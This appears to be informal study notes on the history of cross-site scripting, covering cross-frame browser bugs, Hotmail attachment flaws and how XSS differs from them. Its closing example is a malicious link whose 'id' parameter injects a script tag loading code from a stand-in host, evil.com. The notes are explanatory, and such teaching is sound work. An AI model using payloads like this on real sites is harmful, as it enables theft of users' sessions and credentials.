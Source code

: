 ## The Origin of Cross-Site Scripting (XSS) - Hacker Etymology

Cross- Site scripting (named by David Ross of Microsoft) is security issue that affects websites. Why shouldn’t it be called Javascript code injection, or HTML injection?

*“Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application.”*

National Computer emergency response team along with Microsoft coordinated for it.


Cross Frame policy security issue: issue related to crossing over into another browser frame.

Back then (2000), vulnerabilities were breaking browser security boundary between two websites. One website (attacker) that either embeds another site (victim) via iframes or opens another site via window.open, somehow exploiting bug in the browser, can access data from other website, like cookies or so. 

*“An HTML iframe is used to display a web page within a web page."<br>`<iframe src="url" title="description"></iframe>`*

*“(Java) The open() method opens a new browser window, or a new tab, depending on your browser settings and the parameter values.*<br>`window.open("https://www.w3schools.com");`
<br>*"I guess this is how all the pop up ads that send you to new tab work”*


Whereas, XSS is vulnerability in websites themselves.

Hotmail ATTACKMENTS: “Users clicking on mail attachments in Hotmail are vulnerable to having their passwords stolen by malicious users.” They had a chart where they compared which freemail services were safe from injection of script tags, meta tags and java applets. 

XSS is a vulnerability where you can inject javascript code into a website that another user then executes, so it needs user to communicate, so first xss attackers were webmailers.

For example <br> `<a href “http:foo.com/form.asp?id=<script src=’http://evil.com/evilscript.js’></script>” http://microsoft.com</a>`<br>Here it shown website is actually pointing towards some other website with vulnerable parameter ID.
